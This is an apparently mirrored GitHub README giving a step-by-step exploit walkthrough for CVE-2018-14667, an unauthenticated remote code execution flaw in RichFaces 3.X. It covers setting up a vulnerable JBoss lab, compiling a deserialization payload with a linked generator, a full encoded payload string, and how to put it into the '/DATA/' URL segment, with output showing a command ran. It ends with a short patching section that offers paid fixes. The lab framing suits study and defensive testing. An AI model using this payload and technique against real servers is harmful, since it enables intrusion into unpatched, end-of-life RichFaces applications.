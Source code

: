 # CVE-2018-14667

All about CVE-2018-14667; From what it is to how to successfully exploit it.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/syriusbughunt](https://github.com/syriusbughunt) |
| Url      | [https://github.com/syriusbughunt/CVE-2018-14667](https://github.com/syriusbughunt/CVE-2018-14667)                                               |
| Stars    | 44                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-14667

After spending many time to understand and correctly exploit this CVE, I decided to build a repo on the RichFaces 3.X RCE bug and share the HOWTOs step by step with the community.

**0x00 : Introduction on RichFaces 3.X bug**
<p align="left">
  <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/RichFaces.jpg" width="350" title="hover text">
</p>

On Monday, November 19, *Joao F M Figueiredo* published a well detailed article (https://seclists.org/fulldisclosure/2018/Nov/47) on a critical high-risk RichFaces vulnerability.  
**CVSS3 Base Score	9.8**

This vulnerability will allow any unauthenticated users to perform remote code execution on any web application using RichFaces 3.X (all version) which is pretty much the worst case scenario.

**0x01 : Am I affected?**&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/screaming.jpg" width="20"/>

Well, if you are running RichFaces 3.X (any version of RichFaces 3) and you see the following code in your source, chances are that yes, you might be vulnerable to remote code execution on CVE-2018-14667:

* org.ajax4jsf.resource.InternetResource  
* org.ajax4jsf.resource.SerializableResource  
* javax.el.Expression  
* javax.faces.el.MethodBinding  
* javax.faces.component,StateHolderSaver  
* java.awt.Color  

**0x02 : Running a vulnerable environment to test the bug**&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/bug.jpg" width="20"/>

I will basically re-explain what has been already covered in the article of seclists.org on how to deploy a vulnerable environment.  
1. Download JBoss 5.1.0GA and a demo application with RichFaces which contains the PhotoAlbum application.    
→ http://downloads.jboss.org/richfaces/releases/3.3.X/3.3.4.Final/richfaces-examples-3.3.4.Final.zip  
→ https://sourceforge.net/projects/jboss/files/JBoss/JBoss-5.1.0.GA/
2. Unzip the ZIP archive.  
3. Copy the application *richfaces-examples-3.3.4.Final/photoalbum/dist/photoalbum-ear-3.3.4.Final.ear* to the JBoss deploy directory *jboss-5.1.0.GA/server/default/deploy/*  
4. Start the JBoss application server using the following syntax (make sure before launching that your port 8080 is not already in use): cd bin ; ./run.sh -b 0.0.0.0  
5. You'll need to browse on the PhotoAlbum Index page in order to activate the web application.  

**0x03 : Generating a valid payload**&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/smirk.jpg" width="20"/>

Now the fun part! This is where I've experienced difficulties so I will explain in details how to generate a valid payload and without repeating the same errors I did. I would suggest first to use Eclipse for compiling the payload.  
1. Download Eclipse on the following link:  
→ https://www.eclipse.org/downloads/  
2. Launch Eclipse and choose to create a new Web Project.  
3. Get the payload generator (credits goes to *orich1* from https://xz.aliyun.com/t/3264) available in this repo  
→ https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/Main.java  
4. Extract the WAR archive in this repo (richfaces-demo-3.3.0.GA-tomcat6.war), copy all .jar files from WEB-INF/lib/ folder to WebContent/WEB-INF/lib/ in your Java Web Project in Eclipse  
→ https://github.com/syriusbughunt/CVE-2018-14667/blob/master/richfaces-demo-3.3.0.GA-tomcat6.war  
5. Add the *Main.java* file in Eclipse; right-click on your Java Web Project name in Eclipse, New, File.  
6. Make the WebContent/WEB-INF/lib folder as the Build Path source in Eclipse; right-click on the lib folder, Build Path, Use as Source Folder.  
7. Let's see if you can get lucky; click on the green Play button to run the compiler. If you get 0 errors and a valid payload in your output, congratulations, you now have a valid payload for CVE-2018-14667. Now, if you are having all kind of errors, don't panic. You might want to comment the  following lines: 29,30,31,32,33,34,35 to look like this:  
```
        // Class clazz = Class.forName("javax.el.MethodExpression");
        // Field field = clazz.getField("serialVersionUID");
        // field.setAccessible(true);
        // Field modifiersField = Field.class.getDeclaredField("modifiers");
        // modifiersField.setAccessible(true);
        // modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
        // field.setLong(null, MethodExpressionSerialVersionUID);
```

Your output result in Eclipse should look like the following:
```
/DATA/eAHNVU1rE0EYnkarbf2qtqhVhLiKTUVmW6mHWgOFKiqkFpq2fvQgk82bZOJ-dWY2WSwVRUSwIkjxpiJ4bS!6B!ToJ9Jf4EEREUEE8SbOzKaJDeqhp-xpZvfZ533med59d-ErauYMHfRYHpMiCfuLPIcZcC9gFuAJDmysstk!wehxIghSV8eRLzG0NoU2WQyIgGHPFeAKgbaliqRETJu4eXM0UwRLDKbQegh9Kjmn0RXUlEItjpelOQrZyr65ROwA9Cb0pZYDiiLEOWIBx5bn-J4ruXFayEKnPDsLLE1KwM6!fJqcv!9mJIZiKdRq2YTzM8SBlRrSglE3LzW0cflOVnMItD1SST0zDYwSm14mGRsGQ1-V75YlMQ9cLcAGwTHYeJzkR0AUvOyJ0Jcn4dRztQ8INW1EKGSoKxItofW4J-bLuQ8!--!ENK6jiqsxPb5xK!39wtIxhVAKBlQYjFqFyIKAYuL7NrWIkGUjH-qLnGUSAgwn7l07ujD2UXvSmSEcohBqtQTapQ8fmmCbk8r42jNp0zqfMB3k7hqqvtZgqLJqkULjSmgx43HtUR3bace3BxZn287Ni-7Io53Vs9dBy21Xp94!-3VXGaC4W8uP0PV9MwymA-AC50EMq3gTPdVlyiOyD-QNWy6ih4Zix6rz8FjgCuqAofGR!IQhWWr3qVvyLkHCDWy7B0MIVsIQXmAV4qZwfJOoy-iZ!U-qvh9KA!auMKDeKOVA5tuOHxuebx1RDmjbyjcb42goYKhjSqccmVb5VBaXJj993jNzUjej7PGYQJ3aWerh0UD4gZBAII5A7TXDoy6TnpSX0Duz2rqmA1lKordMCIn0A7hZ9CGf1mscFoRjx4d6D!XGh!r6Dvf1J40VAyXZAE1ghHpwrdGj6R-zoa6f!xwNKvR2zbCl!ADNNcCB4hCNY7RZBxgIamM52EHF9xa9Xl18BTleL-YCN2lU2BsrOpVCVyWFh-h2I6Sw!Bf8Wwyv0IvVxVAMuEgay9SNkYFALao7xuUo!w0w9PXD.jsf
```

**0x04 : Sending your payload and get Remote Code Execution**&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/bomb.jpg" width="20"/>

Navigate in your browser to your local JBoss server running PhotoAlbum Web Application http://192.168.100.2:8080/photoalbum and right-click to view page source. Hit Ctrl+F and search for '/DATA/'. You should find something similar to this:
```
src="/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/eAF1Uk1rFEEQrQwGEz9AXVFyCMQoCiI9JCZeYkBQ0cCsQccI6ql2pna2h57ptrtndzDozYuCF6!evOpFf4HXgJf8BkFEBBHEq929QUnAvlXx6r1Xr!rtd5g0Gs5LXTAssV0qTZ9pMrLRGbENQ!rOTnFmQ!NraBH86yx!i2BfAoczTWjpqqwt1dbCsaTEIcYC6yJe75WU2ZUE9lOruON8BE9hIoGpSua8zynfqSeHKBoKRaucl7OeomV9zMiwTFZK1o6bpdYJ3ZQiJ53ikPT9rQ-rr15!6kYQJTCdCTTmFla020NqNa8L5-GAcTN54LBwYuySyzglzVHwx9gTtNIqL3!OSTLT1MGAIGsYCXYXiy7Zgcyvt8ptYrisQw4AE4cAWg0zY9MOuhf3Pt568fn30sso4Dp!cf-Y3jx7nv58sH3ZI7yDU!4YZU-aIL2Xb61Sovfj5K-DH492vbYPbmo0CzOnN3mFBSUSXURMIa!tmm88AWg0dB6GpZk!jcsyxPJu-96Xr7ObN4Kw2yeycNz7Y1yy9caqxjogYWXhSGiH2fFZlWpHKdyOeZ2JJicTB-3YCO6KgRyxdmArMXfl4sKFhcVLc7u-yer8f63OuxuoP9Xj4!8_" style="opacity: 0.1" class="main-image"><span class="rich-tool-tip tooltip" 
```
You can clearly see the serialized object. This is where we will replace the serialized object by our payload to get remote code execution. In your browser, change the URL to http://192.168.100.2:8080/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/YOUR-PAYLOAD-GENERATED-IN-ECLIPSE. My payload was executing the following command 'touch /tmp/PoorRichFaces'. Let's see if I had success:
```
drwxrwxrwt 12 root   root    32768 Nov 30 01:45 .
drwxr-xr-x 25 root   root     4096 Nov 25 12:57 ..
-rw-rw-r--  1 syrius syrius      0 Nov 30 1:27 PoorRichFaces 
```
Feels good, isn't it? We just got RCE on a Java Web Application running RichFaces 3.X.  

**0x05 : How to patch ?**&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/CVE-2018-14667/master/img/patch.jpg" width="20"/>
 
You might not like this fact so be ready and hang on to your keyboard; RichFaces has reached the end of life concerning the support of their product so users (you) should apply their own patch. Don't panic, if you can't find a way to patch, don't hesitate to contact me, we can make an arrangement so I could patch your Java Web Applications.  

E-mail: syriusbughunt@protonmail.com



## Get the content

```
git clone https://github.com/syriusbughunt/CVE-2018-14667
cd CVE-2018-14667
```

{% embed url="https://github.com/syriusbughunt/CVE-2018-14667" %}

<figure><img src="https://avatars.githubusercontent.com/u/45476916?v=4" alt=""><figcaption><p>syriusbughunt</p></figcaption></figure>
